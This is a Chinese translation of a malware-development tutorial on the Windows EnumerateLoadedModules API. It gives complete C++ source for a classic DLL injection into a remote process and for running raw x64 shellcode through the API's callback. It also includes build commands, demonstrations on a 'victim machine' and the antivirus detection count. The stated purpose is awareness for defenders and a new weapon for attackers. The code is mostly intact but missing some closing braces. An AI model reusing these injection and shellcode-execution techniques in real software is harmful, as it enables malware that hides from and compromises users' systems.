\newpage
\subsection{恶意软件开发技巧：EnumerateLoadedModules（C++ 示例）}

### 列出已加载的模块

{width="80%"}

`EnumerateLoadedModules` API 可以用来获取应用程序已加载的模块。

使用这个 API，可以出于调试目的把已加载模块的列表转储出来，这在开发错误处理框架、崩溃转储等场景中很有用：

要调用 `EnumerateLoadedModules`，我们需要提供一个回调函数指针。

```cpp
BOOL IMAGEAPI EnumerateLoadedModules(
  [in]  HANDLE  hProcess,
  [in]  PENUMLOADED_MODULES_CALLBACK EnumLoadedModulesCallback,
  [in, optional] PVOID  UserContext
);
```

`EnumerateLoadedModules` 会把已加载模块的信息通过回调传给这个我们提供的函数。

### 实战示例 1：打印模块

例如，首先创建一个最简单的回调函数：

```cpp
BOOL CALLBACK PrintModules(
  PSTR ModuleName,
  ULONG ModuleBase,
  ULONG ModuleSize,
  PVOID UserContext) {
  // print the module name.
  printf("%s\n", ModuleName);
  return TRUE;

```

然后，把这个函数作为第二个实参使用：

```cpp
EnumerateLoadedModules(ph, (PENUMLOADED_MODULES_CALLBACK)PrintModules, NULL);
```

那么，完整代码大致是这样：

```cpp
#include <iostream>
#include <windows.h>
#include <dbghelp.h>

#pragma comment (lib, "dbghelp.lib")

// callback function
BOOL CALLBACK PrintModules(
  PSTR ModuleName,
  ULONG ModuleBase,
  ULONG ModuleSize,
  PVOID UserContext) {
  // print the module name.
  printf("%s\n", ModuleName);
  return TRUE;

int main(int argc, char *argv[]) {
  // inject a DLL into remote process
  HANDLE ph = GetCurrentProcess();
  // enumerate modules
  printf("\nenumerate modules... \n");
  EnumerateLoadedModules(ph, (PENUMLOADED_MODULES_CALLBACK)PrintModules, NULL);
  return 0;

```

### 演示 1

我们来看第一个例子的实际运行。编译我们的脚本 `hack.cpp`：

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -ldbghelp
```

{width="80%"}

然后，直接在 Windows 机器上运行（我们的例子是 Windows 10 x64）：

```powershell
.\hack.exe
```

{width="80%"}

{width="80%"}

我们可以看到一切都完美工作了！

### 实战示例 2：注入 DLL

假设我们有一个带经典 DLL 注入逻辑的恶意软件 `hack2.cpp`：

```cpp
#include <iostream>
#include <windows.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char *argv[]) {
  // inject a DLL into remote process
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  HANDLE ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));  
  LPVOID rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);
  HANDLE rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);

  CloseHandle(ph);
  return 0;

```

然后，我们稍微修改一下这段代码：加上 `EnumerateLoadedModules` API 调用和前面那个回调函数：

```cpp
/*
hack2.cpp
DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/21/malware-tricks-25.html
*/
#include <iostream>
#include <windows.h>
#include <dbghelp.h>

#pragma comment (lib, "dbghelp.lib")

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

// callback function
BOOL CALLBACK PrintModules(
  PSTR ModuleName,
  ULONG ModuleBase,
  ULONG ModuleSize,
  PVOID UserContext) {
  // print the module name.
  printf("%s\n", ModuleName);
  return TRUE;

int main(int argc, char *argv[]) {
  // inject a DLL into remote process

  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  HANDLE ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  LPVOID rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);
  HANDLE rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);

  // enumerate modules
  printf("\nenumerate modules... \n");
  EnumerateLoadedModules(ph, (PENUMLOADED_MODULES_CALLBACK)PrintModules, NULL);

  CloseHandle(ph);
  return 0;

```

为了简单起见，和往常一样，我的「恶意」DLL 只是一个 meow 消息框（`evil.c`）：

```cpp
/*
evil.c
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/21/malware-tricks-25.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
  MessageBox(
  NULL,
  "Meow from evil.dll!",
  "=^..^=",
  MB_OK
  );
  break;
  case DLL_PROCESS_DETACH:
  break;
  case DLL_THREAD_ATTACH:
  break;
  case DLL_THREAD_DETACH:
  break;
  }
  return TRUE;

```

### 演示 2

我们再来看看一切的实际运行。

首先，编译我们的「恶意」DLL：

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

{width="80%"}

下一步，编译我们的 DLL 注入恶意软件：

```bash
x86_64-w64-mingw32-g++ -O2 hack2.cpp -o hack2.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -ldbghelp
```

{width="80%"}

最后，在受害机器上（我的例子是 Windows 10 x64）对 `mspaint.exe` 进程运行它：

```powershell
.\hack2.exe <mspaint PID>
```

{width="80%"}

{width="80%"}

我们可以看到，我们的回调函数打印出了我们的「恶意」DLL。完美！

### 实战示例 3：通过回调函数运行 shellcode

这是最有意思的例子。事实证明，你可以用这个 API 中的回调函数来运行 shellcode：

```cpp
/*
 * hack3.cpp - run shellcode via EnumerateLoadedModules. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2022/12/21/malware-tricks-25.html
*/
#include <windows.h>
#include <dbghelp.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumerateLoadedModules(GetCurrentProcess(), (PENUMLOADED_MODULES_CALLBACK)mem, NULL);
  return 0;

```

如你所见，这和通过 `EnumDesktopsA` 以及 `EnumChildWindows` 运行 shellcode 类似。

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### 演示 3

我们来看看运行 shellcode 的实际效果。编译我们的「恶意软件」：

```bash
x86_64-w64-mingw32-g++ -O2 hack3.cpp -o hack3.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -ldbghelp
```

{width="80%"}

然后，在受害机器上运行：

```powershell
.\hack3.exe
```

{width="80%"}

{width="80%"}

我们可以看到一切都完美工作了，正如预期的那样！

我们把 `hack3.exe` 上传到 VirusTotal：

{width="80%"}

所以，71 个 AV 引擎中有 20 个把我们的文件检测为恶意。

<https://www.virustotal.com/gui/file/6fe8e9fe9593780a620903a33d3fda025946e770781eb997490c109fd95303ed/detection>

我希望这篇文章能让蓝队意识到这项有趣的技术，同时为红队的武器库增添一件武器。

[EnumerateLoadedModules](https://learn.microsoft.com/en-us/windows/win32/api/dbghelp/nf-dbghelp-enumerateloadedmodules)  
[Classic DLL injection](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html)  
[Malware dev tricks. Run shellcode via EnumChildWindows](https://cocomelonc.github.io/malware/2022/07/13/malware-injection-21.html)  
[Malware dev tricks. Run shellcode via EnumDesktopsA](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html)  
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-12-21-malware-tricks-25)

这篇文章是我自己对恶意软件开发技巧——通过 `EnumerateLoadedModules` 运行 shellcode——研究的结果。

如果你长期关注我的博客，我想你会有一种既视感。

唯一的区别只是加了 `dbghelp.h`。

和往常一样，为了简单起见我们使用 meow-meow 消息框作为载荷：
